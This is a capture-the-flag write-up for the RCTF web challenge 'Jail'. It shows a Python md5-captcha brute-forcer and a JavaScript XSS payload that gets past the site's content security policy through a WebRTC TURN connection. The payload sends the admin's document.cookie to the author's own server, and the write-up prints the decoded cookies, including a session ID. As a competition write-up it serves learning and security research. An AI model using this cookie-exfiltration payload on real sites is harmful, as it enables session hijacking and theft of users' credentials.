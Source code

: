 ## Jail (476 pts) (Web)

![](challenge.png)

We are given access to a guestbook where we can leave messages and a feedback section where we can ask the admin to take a look at our post. However the feedback form is protected with a captcha `substr(md5(captcha), 0, 6) == "123456"`, where, according to the hint the captcha is a number between 1 and 10000000. This small python script solves that:

```python
import hashlib

target = 'fb0bd2'
candidate = 0
for candidate in range(0,10000000):
    plaintext = str(candidate)
    hash = hashlib.md5(plaintext.encode('ascii')).hexdigest()
    if hash[:6] == target:
        print('plaintext:"' + plaintext + '", md5:' + hash)
        break
    candidate = candidate + 1
```

We also notice two cookies, `hint1=flag1_is_in_cookie` and `hint2=meta_refresh_is_banned_in_server`. So presumably we must leak some cookie that the admin has when viewing our post. Sadly the CSP disallows every type of external connection. After a while I stumbled upon [a Github issue titled "WebRTC bypass CSP connect-src policies"](https://github.com/w3c/webrtc-pc/issues/1727). After that it was a relatively easy (but quite frustrating) endeavour to start a CoTURN server and craft a script that would send the cookies as username to that server.

```javascript
<script>function gotDescription(desc) {
    begin=window.performance.now();
    candidates=[];
    pc.setLocalDescription(desc);
}

function noDescription(error) {
    console.log('Error creating offer: ', error);
}

var pc=new RTCPeerConnection( {
    "iceServers":[ {
        "urls": ["turn:my.server.ip:3478"], "username": btoa(document.cookie), "credential": "password1"
    }
    ], "iceTransportPolicy":"all", "iceCandidatePoolSize":"0"
}

);
pc.createOffer( {
    offerToReceiveAudio: 1
}

).then( gotDescription, noDescription);
</script>
```

Check the log and decode it

```
# ~> echo ZmxhZz1SQ1RGe3dlbGMwbWVfdDBfdGhlX2NoYW9zX3cwcjFkfTsgUEhQU0VTU0lEPTExYmYwNzNjZWQwN2JlNzVlN2JlODA0MGUzNGRiZmUxOyBoaW50MT1mbGFnMV9pc19pbl9jb29raWU7IGhpbnQyPW1ldGFfcmVmcmVzaF9pc19iYW5uZWRfaW5fc2VydmVy|base64 -d
# flag=RCTF{welc0me_t0_the_chaos_w0r1d}; PHPSESSID=11bf073ced07be75e7be8040e34dbfe1; hint1=flag1_is_in_cookie; hint2=meta_refresh_is_banned_in_server⏎      
```

`RCTF{welc0me_t0_the_chaos_w0r1d}`